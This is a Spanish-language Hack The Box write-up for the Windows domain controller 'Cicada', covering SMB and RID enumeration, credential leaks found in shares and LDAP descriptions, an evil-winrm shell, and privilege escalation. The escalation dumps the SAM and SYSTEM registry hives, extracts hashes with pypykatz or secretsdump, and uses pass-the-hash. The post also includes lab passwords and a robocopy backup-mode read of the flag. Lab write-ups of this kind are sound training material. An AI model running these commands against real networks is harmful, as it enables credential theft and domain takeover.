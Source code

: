 ```yaml
---
layout: single
title: Cicada - Hack The Box
excerpt: "Cicada es una máquina de dificultad fácil que aborda los temas de enumeración de usuarios del dominio, recursos compartidos SMB, abuso de fuga de credenciales para obtener una shell inicial, abuso de SeBackupPrivilege y SeRestorePrivilege, y crackeo de hashes para la escalada de privilegios."
date: 2024-09-28
classes: wide
header:
  teaser: /assets/images/htb-writeup-cicada/cicada_logo.jpg
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - windows
tags:  
  - passthehash
  - ldapdomaindump
  - AD
  - enumeration
  - netexec
---
```


![](/assets/images/htb-writeup-cicada/cicada_logo.jpg)

Cicada es una máquina de dificultad fácil que aborda los temas de enumeración de usuarios del dominio, recursos compartidos SMB, abuso de fuga de credenciales para obtener una shell inicial, abuso de SeBackupPrivilege y SeRestorePrivilege, y crackeo de hashes para la escalada de privilegios.

## Escaneo de Puertos

```
Nmap scan report for cicada.htb (10.10.11.35)
Host is up (0.12s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-29 10:29:04Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
50823/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m55s
| smb2-time: 
|   date: 2024-09-29T10:29:58
|_  start_date: N/A
```

## Enumeración

Empezamos enumerando los recursos compartidos por SMB, empleando el siguiente comando: `smbclient -L 10.10.11.35`. Para conectarnos por SMB sin credenciales.

![](/assets/images/htb-writeup-cicada/smbclient.png)

Intentamos acceder a cada recursos compartido. Sin embargo, existen recursos que no nos deja acceder sin credenciales o está vacío. No obstante en el recurso HR obtenemos el siguiente archivo:

![](/assets/images/htb-writeup-cicada/smbclient_HR.png)

Lo descargamos a nuestra máquina de atacante con el siguiente comando: `get Notice\ from\ HR.txt`

Una vez descargamos y leemos su contenido

![](/assets/images/htb-writeup-cicada/creds.png)

Observamos que tenemos la contraseña `Cicada$M6Corpb*@Lp#nZp!8`

Ahora debemos enumerar los usuarios existentes del dominio, para ello usamos la herramienta netexec (también se puede usar crackmapexec) con el parámetro `--rid-brute`.
Empleamos el siguiente comando: `netexec smb 10.10.11.35 -u guest -p '' --rid-brute`.

![](/assets/images/htb-writeup-cicada/users_nxc.png)

Lo guardamos en el archivo `rid.txt` y ejecutamos el siguiente comando para filtrar solo por los usuarios: 

`cat rid.txt | grep SidTypeUser | awk '{print $6}' | awk -F\\ '{print $2}' > users.txt`

Validamos las credenciales con netexec

![](/assets/images/htb-writeup-cicada/shares.png)

Podemos observar la credencial válida es de `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`

Empleando ldapdomaindump dumpeamos toda la información del dominio

![](/assets/images/htb-writeup-cicada/ldapdomaindump_michael.png)
![](/assets/images/htb-writeup-cicada/ldapdomaindump_michael2.png)

Leemos el contenido del archivo `domain_users.json`

Observamos que la contraseña del usuario david.orelious está en la descripción

![](/assets/images/htb-writeup-cicada/david_orelious_creds.png)

Ya tenemos las credenciales de `david.orelious:aRt$Lp#7t*VQ!3`

Con estas credenciales comprobamos los recursos a los que podemos acceder y notamos que podemos acceder al recurso `DEV` con permisos de lectura

![](/assets/images/htb-writeup-cicada/smb_david.png)

![](/assets/images/htb-writeup-cicada/smb_david2.png)

Descargamos el archivo `Backup_script.ps1` y leemos su contenido

![](/assets/images/htb-writeup-cicada/emily_oscars_creds.png)

Obtenemos las credenciales de `emily.oscars:Q!3@Lp#M6b*7t*Vt`

## User Shell

Validamos las credenciales de emily con netexec y observamos que nos sale (Pwn3d!)

![](/assets/images/htb-writeup-cicada/emily_pwned.png)

Lo que significa que tenemos acceso remoto a la máquina víctima

Nos conectaremos con evil-winrm con las credenciales de emily y accedemos a la máquina víctima

![](/assets/images/htb-writeup-cicada/emily_shell.png)

Y obtenemos nuestra primera flag

![](/assets/images/htb-writeup-cicada/user_flag.png)

## Escalada de Privilegios

Empleamos el comando whoami /priv para averiguar los privilegios que tiene el usuario

![](/assets/images/htb-writeup-cicada/emily_priv.png)

Notamos que tenemos los privilegios de SeBackup y SeRestore

Nos guiamos de la siguiente página [https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) para abusar de estos privilegios y escalar como administrador

Nos vamos al directorio C:\ y creamos el directorio Temp

![](/assets/images/htb-writeup-cicada/priv1.png)

estando en C:\Temp\ ejecutamos el siguiente comando:
`reg save hklm\sam C:\Temp\sam`
`reg save hklm\system C:\Temp\system`

Teniendo los archivos sam y system, lo descargamos a nuestra máquina
![](/assets/images/htb-writeup-cicada/priv2.png)

En nuestra máquina, usaremos pypykatz (mimikatz empleando python) para extraer los hashes de los usuarios

`pypykatz registry --sam sam system`

Otra forma: `impacket-secretsdump -sam sam -system system local`

![](/assets/images/htb-writeup-cicada/priv3.png)

Una vez obtenido los hashes, podemos conectarnos como administrador realizando PasstheHash

Ya como administrador obtenemos la flag de root

![](/assets/images/htb-writeup-cicada/priv4.png)

## Otra forma (No intencionado -> obtener root.txt sin ser administrador)

En la máquina víctima ejecutamos:

`robocopy C:\Users\Administrator\Desktop C:\Users\Public root.txt /B`
`type C:\Users\Public\root.txt`

Y obtendremos el archivo root.txt

![](/assets/images/htb-writeup-cicada/root1.png)

![](/assets/images/htb-writeup-cicada/pwned.png)
